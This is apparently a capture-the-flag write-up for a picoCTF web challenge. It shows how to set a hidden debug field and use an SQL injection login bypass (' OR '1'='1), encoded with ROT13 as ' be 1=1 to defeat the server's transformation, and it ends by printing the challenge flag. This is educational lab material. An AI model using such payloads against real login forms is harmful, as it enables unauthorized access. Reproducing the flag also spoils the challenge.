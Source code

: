 ## Goal


## Solution
+ I opened the link
+ Inspect all parts of the site, it mentions you have a sql error, you probably have errors in your database, so the way to enter would be by SQL Injection
+ We open the browser inspector mode and inspect the code. There is a line of code that is going to be modified:
	 input type="hidden" name="debug" value="0"
	 input type="hidden" name="debug" value="1"
+ Now we try to do SQL Injection on the password section ' OR '1'='1
+ We will be redirected to a page with this content:
password: ' or 1=1;
SQL query: SELECT * FROM admin where password = ' ' ' be 1=1;'
+ We use cyberchef to verify what type of encryption you are using, use rot13.
+ So we enter the encrypted password **' be 1=1** and it will redirect us to the flag.

password: ' be 1=1;
SQL query: SELECT * FROM admin where password = '' or 1=1;'
Logged in!
Your flag is: picoCTF{3v3n_m0r3_SQL_06a9db19}


## Notes

## References
[Cyberchef](https://gchq.github.io/CyberChef/#recipe=ROT13(true,true,false,13)&input=JyBiZSAxPTEn)